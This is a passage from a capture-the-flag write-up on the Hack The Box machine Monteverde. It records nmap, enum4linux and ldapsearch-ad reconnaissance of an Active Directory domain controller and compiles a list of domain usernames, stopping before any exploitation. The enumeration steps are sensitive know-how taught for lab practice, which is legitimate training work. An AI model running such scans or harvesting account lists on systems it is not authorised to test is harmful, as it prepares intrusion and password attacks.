







# Hackthebox - Monteverde - Windows


- [Box on HTB](https://app.hackthebox.com/machines/223)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.172                   
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-15 15:49 EDT
Nmap scan report for 10.10.10.172
Host is up (0.023s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-15 19:50:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-10-15T19:51:39
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.30 seconds
```

### Analysis from nmap scan

- Here are the infos we get from nmap
  - The domain name is `MEGABANK`
  - The host name is `MONTEVERDE`
- What can we do
  - SMB enumeration
  - Kerberos enumeration
  - HTTP (port 5985) enumeration
  - DNS enumeration
  - ldap emumeration

## Enumeration

### Enum4linux

```bash
┌──(kali㉿kali)-[~]
└─$ enum4linux -a 10.10.10.172                                                     
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Oct 15 16:26:02 2022

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.10.172
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 10.10.10.172    |
 ==================================================== 
[E] Can't find workgroup/domain


 ============================================ 
|    Nbtstat Information for 10.10.10.172    |
 ============================================ 
Looking up status of 10.10.10.172
No reply from 10.10.10.172

 ===================================== 
|    Session Check on 10.10.10.172    |
 ===================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
[+] Server 10.10.10.172 allows sessions using username '', password ''
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.
[+] Got domain/workgroup name: 

 =========================================== 
|    Getting domain SID for 10.10.10.172    |
 =========================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: MEGABANK
Domain Sid: S-1-5-21-391775091-850290835-3566037492
[+] Host is part of a domain (not a workgroup)

 ====================================== 
|    OS information on 10.10.10.172    |
 ====================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 458.
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 10.10.10.172 from smbclient: 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 467.
[+] Got OS info for 10.10.10.172 from srvinfo:
Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED

 ============================= 
|    Users on 10.10.10.172    |
 ============================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 881.
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]

 ========================================= 
|    Share Enumeration on 10.10.10.172    |
 ========================================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 640.
do_connect: Connection to 10.10.10.172 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 10.10.10.172

 ==================================================== 
|    Password Policy Information for 10.10.10.172    |
 ==================================================== 


[+] Attaching to 10.10.10.172 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:10.10.10.172)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

        [+] MEGABANK
        [+] Builtin

[+] Password Info for Domain: MEGABANK

        [+] Minimum password length: 7
        [+] Password history length: 24
        [+] Maximum password age: 41 days 23 hours 53 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: 1 day 4 minutes 
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.

[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 7


 ============================== 
|    Groups on 10.10.10.172    |
 ============================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 542.

[+] Getting builtin groups:
group:[Pre-Windows 2000 Compatible Access] rid:[0x22a]
group:[Incoming Forest Trust Builders] rid:[0x22d]
group:[Windows Authorization Access Group] rid:[0x230]
group:[Terminal Server License Servers] rid:[0x231]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Remote Desktop Users] rid:[0x22b]
group:[Network Configuration Operators] rid:[0x22c]
group:[Performance Monitor Users] rid:[0x22e]
group:[Performance Log Users] rid:[0x22f]
group:[Distributed COM Users] rid:[0x232]
group:[IIS_IUSRS] rid:[0x238]
group:[Cryptographic Operators] rid:[0x239]
group:[Event Log Readers] rid:[0x23d]
group:[Certificate Service DCOM Access] rid:[0x23e]
group:[RDS Remote Access Servers] rid:[0x23f]
group:[RDS Endpoint Servers] rid:[0x240]
group:[RDS Management Servers] rid:[0x241]
group:[Hyper-V Administrators] rid:[0x242]
group:[Access Control Assistance Operators] rid:[0x243]
group:[Remote Management Users] rid:[0x244]
group:[Storage Replica Administrators] rid:[0x246]

[+] Getting builtin group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Distributed COM Users' (RID: 562) has member: Could not connect to server 10.10.10.172
Group 'Distributed COM Users' (RID: 562) has member: The username or password was not correct.
Group 'Distributed COM Users' (RID: 562) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Hyper-V Administrators' (RID: 578) has member: Could not connect to server 10.10.10.172
Group 'Hyper-V Administrators' (RID: 578) has member: The username or password was not correct.
Group 'Hyper-V Administrators' (RID: 578) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Terminal Server License Servers' (RID: 561) has member: Could not connect to server 10.10.10.172
Group 'Terminal Server License Servers' (RID: 561) has member: The username or password was not correct.
Group 'Terminal Server License Servers' (RID: 561) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Incoming Forest Trust Builders' (RID: 557) has member: Could not connect to server 10.10.10.172
Group 'Incoming Forest Trust Builders' (RID: 557) has member: The username or password was not correct.
Group 'Incoming Forest Trust Builders' (RID: 557) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Certificate Service DCOM Access' (RID: 574) has member: Could not connect to server 10.10.10.172
Group 'Certificate Service DCOM Access' (RID: 574) has member: The username or password was not correct.
Group 'Certificate Service DCOM Access' (RID: 574) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Remote Desktop Users' (RID: 555) has member: Could not connect to server 10.10.10.172
Group 'Remote Desktop Users' (RID: 555) has member: The username or password was not correct.
Group 'Remote Desktop Users' (RID: 555) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Pre-Windows 2000 Compatible Access' (RID: 554) has member: Could not connect to server 10.10.10.172
Group 'Pre-Windows 2000 Compatible Access' (RID: 554) has member: The username or password was not correct.
Group 'Pre-Windows 2000 Compatible Access' (RID: 554) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'IIS_IUSRS' (RID: 568) has member: Could not connect to server 10.10.10.172
Group 'IIS_IUSRS' (RID: 568) has member: The username or password was not correct.
Group 'IIS_IUSRS' (RID: 568) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'RDS Management Servers' (RID: 577) has member: Could not connect to server 10.10.10.172
Group 'RDS Management Servers' (RID: 577) has member: The username or password was not correct.
Group 'RDS Management Servers' (RID: 577) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Storage Replica Administrators' (RID: 582) has member: Could not connect to server 10.10.10.172
Group 'Storage Replica Administrators' (RID: 582) has member: The username or password was not correct.
Group 'Storage Replica Administrators' (RID: 582) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Users' (RID: 545) has member: Could not connect to server 10.10.10.172
Group 'Users' (RID: 545) has member: The username or password was not correct.
Group 'Users' (RID: 545) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Event Log Readers' (RID: 573) has member: Could not connect to server 10.10.10.172
Group 'Event Log Readers' (RID: 573) has member: The username or password was not correct.
Group 'Event Log Readers' (RID: 573) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Windows Authorization Access Group' (RID: 560) has member: Could not connect to server 10.10.10.172
Group 'Windows Authorization Access Group' (RID: 560) has member: The username or password was not correct.
Group 'Windows Authorization Access Group' (RID: 560) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Access Control Assistance Operators' (RID: 579) has member: Could not connect to server 10.10.10.172
Group 'Access Control Assistance Operators' (RID: 579) has member: The username or password was not correct.
Group 'Access Control Assistance Operators' (RID: 579) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Performance Monitor Users' (RID: 558) has member: Could not connect to server 10.10.10.172
Group 'Performance Monitor Users' (RID: 558) has member: The username or password was not correct.
Group 'Performance Monitor Users' (RID: 558) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'RDS Endpoint Servers' (RID: 576) has member: Could not connect to server 10.10.10.172
Group 'RDS Endpoint Servers' (RID: 576) has member: The username or password was not correct.
Group 'RDS Endpoint Servers' (RID: 576) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'RDS Remote Access Servers' (RID: 575) has member: Could not connect to server 10.10.10.172
Group 'RDS Remote Access Servers' (RID: 575) has member: The username or password was not correct.
Group 'RDS Remote Access Servers' (RID: 575) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Performance Log Users' (RID: 559) has member: Could not connect to server 10.10.10.172
Group 'Performance Log Users' (RID: 559) has member: The username or password was not correct.
Group 'Performance Log Users' (RID: 559) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Network Configuration Operators' (RID: 556) has member: Could not connect to server 10.10.10.172
Group 'Network Configuration Operators' (RID: 556) has member: The username or password was not correct.
Group 'Network Configuration Operators' (RID: 556) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Remote Management Users' (RID: 580) has member: Could not connect to server 10.10.10.172
Group 'Remote Management Users' (RID: 580) has member: The username or password was not correct.
Group 'Remote Management Users' (RID: 580) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Guests' (RID: 546) has member: Could not connect to server 10.10.10.172
Group 'Guests' (RID: 546) has member: The username or password was not correct.
Group 'Guests' (RID: 546) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Cryptographic Operators' (RID: 569) has member: Could not connect to server 10.10.10.172
Group 'Cryptographic Operators' (RID: 569) has member: The username or password was not correct.
Group 'Cryptographic Operators' (RID: 569) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 542.

[+] Getting local groups:
group:[Cert Publishers] rid:[0x205]
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x44d]
group:[SQLServer2005SQLBrowserUser$MONTEVERDE] rid:[0x44f]
group:[ADSyncAdmins] rid:[0x451]
group:[ADSyncOperators] rid:[0x452]
group:[ADSyncBrowse] rid:[0x453]
group:[ADSyncPasswordSet] rid:[0x454]

[+] Getting local group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Denied RODC Password Replication Group' (RID: 572) has member: Could not connect to server 10.10.10.172
Group 'Denied RODC Password Replication Group' (RID: 572) has member: The username or password was not correct.
Group 'Denied RODC Password Replication Group' (RID: 572) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'RAS and IAS Servers' (RID: 553) has member: Could not connect to server 10.10.10.172
Group 'RAS and IAS Servers' (RID: 553) has member: The username or password was not correct.
Group 'RAS and IAS Servers' (RID: 553) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'ADSyncOperators' (RID: 1106) has member: Could not connect to server 10.10.10.172
Group 'ADSyncOperators' (RID: 1106) has member: The username or password was not correct.
Group 'ADSyncOperators' (RID: 1106) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'DnsAdmins' (RID: 1101) has member: Could not connect to server 10.10.10.172
Group 'DnsAdmins' (RID: 1101) has member: The username or password was not correct.
Group 'DnsAdmins' (RID: 1101) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'ADSyncPasswordSet' (RID: 1108) has member: Could not connect to server 10.10.10.172
Group 'ADSyncPasswordSet' (RID: 1108) has member: The username or password was not correct.
Group 'ADSyncPasswordSet' (RID: 1108) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Allowed RODC Password Replication Group' (RID: 571) has member: Could not connect to server 10.10.10.172
Group 'Allowed RODC Password Replication Group' (RID: 571) has member: The username or password was not correct.
Group 'Allowed RODC Password Replication Group' (RID: 571) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'Cert Publishers' (RID: 517) has member: Could not connect to server 10.10.10.172
Group 'Cert Publishers' (RID: 517) has member: The username or password was not correct.
Group 'Cert Publishers' (RID: 517) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'ADSyncAdmins' (RID: 1105) has member: Could not connect to server 10.10.10.172
Group 'ADSyncAdmins' (RID: 1105) has member: The username or password was not correct.
Group 'ADSyncAdmins' (RID: 1105) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'ADSyncBrowse' (RID: 1107) has member: Could not connect to server 10.10.10.172
Group 'ADSyncBrowse' (RID: 1107) has member: The username or password was not correct.
Group 'ADSyncBrowse' (RID: 1107) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 574.
Group 'SQLServer2005SQLBrowserUser$MONTEVERDE' (RID: 1103) has member: Could not connect to server 10.10.10.172
Group 'SQLServer2005SQLBrowserUser$MONTEVERDE' (RID: 1103) has member: The username or password was not correct.
Group 'SQLServer2005SQLBrowserUser$MONTEVERDE' (RID: 1103) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 593.

[+] Getting domain groups:
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Azure Admins] rid:[0xa29]
group:[File Server Admins] rid:[0xa2e]
group:[Call Recording Admins] rid:[0xa2f]
group:[Reception] rid:[0xa30]
group:[Operations] rid:[0xa31]
group:[Trading] rid:[0xa32]
group:[HelpDesk] rid:[0xa33]
group:[Developers] rid:[0xa34]

[+] Getting domain group memberships:
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Cloneable Domain Controllers' (RID: 522) has member: Could not connect to server 10.10.10.172
Group 'Cloneable Domain Controllers' (RID: 522) has member: The username or password was not correct.
Group 'Cloneable Domain Controllers' (RID: 522) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Domain Users' (RID: 513) has member: Could not connect to server 10.10.10.172
Group 'Domain Users' (RID: 513) has member: The username or password was not correct.
Group 'Domain Users' (RID: 513) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Domain Computers' (RID: 515) has member: Could not connect to server 10.10.10.172
Group 'Domain Computers' (RID: 515) has member: The username or password was not correct.
Group 'Domain Computers' (RID: 515) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Reception' (RID: 2608) has member: Could not connect to server 10.10.10.172
Group 'Reception' (RID: 2608) has member: The username or password was not correct.
Group 'Reception' (RID: 2608) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Domain Guests' (RID: 514) has member: Could not connect to server 10.10.10.172
Group 'Domain Guests' (RID: 514) has member: The username or password was not correct.
Group 'Domain Guests' (RID: 514) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'File Server Admins' (RID: 2606) has member: Could not connect to server 10.10.10.172
Group 'File Server Admins' (RID: 2606) has member: The username or password was not correct.
Group 'File Server Admins' (RID: 2606) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Operations' (RID: 2609) has member: Could not connect to server 10.10.10.172
Group 'Operations' (RID: 2609) has member: The username or password was not correct.
Group 'Operations' (RID: 2609) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Group Policy Creator Owners' (RID: 520) has member: Could not connect to server 10.10.10.172
Group 'Group Policy Creator Owners' (RID: 520) has member: The username or password was not correct.
Group 'Group Policy Creator Owners' (RID: 520) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'DnsUpdateProxy' (RID: 1102) has member: Could not connect to server 10.10.10.172
Group 'DnsUpdateProxy' (RID: 1102) has member: The username or password was not correct.
Group 'DnsUpdateProxy' (RID: 1102) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Trading' (RID: 2610) has member: Could not connect to server 10.10.10.172
Group 'Trading' (RID: 2610) has member: The username or password was not correct.
Group 'Trading' (RID: 2610) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Call Recording Admins' (RID: 2607) has member: Could not connect to server 10.10.10.172
Group 'Call Recording Admins' (RID: 2607) has member: The username or password was not correct.
Group 'Call Recording Admins' (RID: 2607) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'HelpDesk' (RID: 2611) has member: Could not connect to server 10.10.10.172
Group 'HelpDesk' (RID: 2611) has member: The username or password was not correct.
Group 'HelpDesk' (RID: 2611) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Azure Admins' (RID: 2601) has member: Could not connect to server 10.10.10.172
Group 'Azure Admins' (RID: 2601) has member: The username or password was not correct.
Group 'Azure Admins' (RID: 2601) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Enterprise Read-only Domain Controllers' (RID: 498) has member: Could not connect to server 10.10.10.172
Group 'Enterprise Read-only Domain Controllers' (RID: 498) has member: The username or password was not correct.
Group 'Enterprise Read-only Domain Controllers' (RID: 498) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Developers' (RID: 2612) has member: Could not connect to server 10.10.10.172
Group 'Developers' (RID: 2612) has member: The username or password was not correct.
Group 'Developers' (RID: 2612) has member: Connection failed: NT_STATUS_LOGON_FAILURE
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 614.
Group 'Protected Users' (RID: 525) has member: Could not connect to server 10.10.10.172
Group 'Protected Users' (RID: 525) has member: The username or password was not correct.
Group 'Protected Users' (RID: 525) has member: Connection failed: NT_STATUS_LOGON_FAILURE

 ======================================================================= 
|    Users on 10.10.10.172 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 710.
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 742.

 ============================================= 
|    Getting printer info for 10.10.10.172    |
 ============================================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 991.
Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Sat Oct 15 16:26:43 2022
```

Enum4linux gave back lots of info. We got a user list from it (usename and full name).
It is worth keeping them aside in a txt file.

```txt
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

### Ldap

#### ldapsearch-ad

- Get it [here](https://github.com/yaap7/ldapsearch-ad)

```bash
┌──(kali㉿kali)-[/opt/ldapsearch-ad]
└─$ python3 ldapsearch-ad.py -l 10.10.10.172 -t info                  
### Server infos ###
[+] Forest functionality level = Windows 2016
[+] Domain functionality level = Windows 2016
[+] Domain controller functionality level = Windows 2016
[+] rootDomainNamingContext = DC=MEGABANK,DC=LOCAL
[+] defaultNamingContext = DC=MEGABANK,DC=LOCAL
[+] ldapServiceName = MEGABANK.LOCAL:monteverde$@MEGABANK.LOCAL
